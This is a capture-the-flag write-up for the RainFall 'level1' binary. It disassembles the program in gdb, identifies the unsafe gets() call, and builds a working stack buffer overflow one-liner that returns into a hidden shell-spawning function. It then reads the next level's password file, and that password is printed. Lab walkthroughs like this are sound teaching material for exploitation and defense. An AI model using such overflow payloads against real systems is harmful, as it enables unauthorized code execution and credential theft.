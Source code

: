 # Level 0

Once logged in, you will see a binary `level1`.

```
$ ssh level1@localhost -p 4242
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$ ls
level1
```

Let's run this and see what this does.
```
level1@RainFall:~$ ./level1

```

It seems it tries getting input, so let's try typing something.

```
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$
```

It does nothing, so let's run `gdb` to see what's going on.

```
level1@RainFall:~$ gdb level1
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
gdb-peda$
```

It seems there must be some more, and we can check the list of functions by the command on gdb: `info functions`.

```
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_glo
```

There are some system calls, but we see a function `run`. let's check that function.

```
gdb-peda$ disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
gdb-peda$
```

Now, the function `run` is initialized, but there is no way the function `run` is called. But on main, we can see the `gets` function is used. The `gets` function has a vulnerability (as noted in its [man page](https://linux.die.net/man/3/gets)), as the input length is not checked:

```
Bugs
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

This means we can use a buffer overflow attack to modify the memory on the stack to "return" to the `run` function at the end of the main function. To do this, we'll need to figure out the location of `run` in memory and put that in the `eip` register.

In `main`, the whole stack frame is allocated with a size of `0x50` (80 in decimal). Note that this includes both the stack frame as well as any memory allocated, in this case 64 bytes for the `gets` buffer.

```
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50          // <- here
   0x08048489 <+9>:     lea    eax,[esp+0x10]
```

Let's try running the program with the parameter of length 80 and see how it works:

```
level1@RainFall:~$ python -c "print 'A' * 80" | ./level1
Segmentation fault (core dumped)
```

The program crashes with a segmentation fault. Checking on the debugger, we can see the `eip` register is overwritten the character `AAAA`!

```
gdb-peda$ run <<< $(python -c "print 'A' *80")

[----------------------------------registers-----------------------------------]
EAX: 0xbffff6b0 ('A' <repeats 80 times>)
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xb7fd28c4 --> 0x0
EDX: 0xbffff6b0 ('A' <repeats 80 times>)
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 --> 0x0
0004| 0xbffff704 --> 0xbffff794 --> 0xbffff8b3 ("/home/user/level1/level1")
0008| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0012| 0xbffff70c --> 0xb7fdc858 --> 0xb7e2c000 --> 0x464c457f
0016| 0xbffff710 --> 0x0
0020| 0xbffff714 --> 0xbffff71c --> 0x0
0024| 0xbffff718 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0028| 0xbffff71c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

If we replace the last `AAAA` with the address of the function `run`, instead of a segmentation fault caused from invalid return address, the run function will be executed.

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat -) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
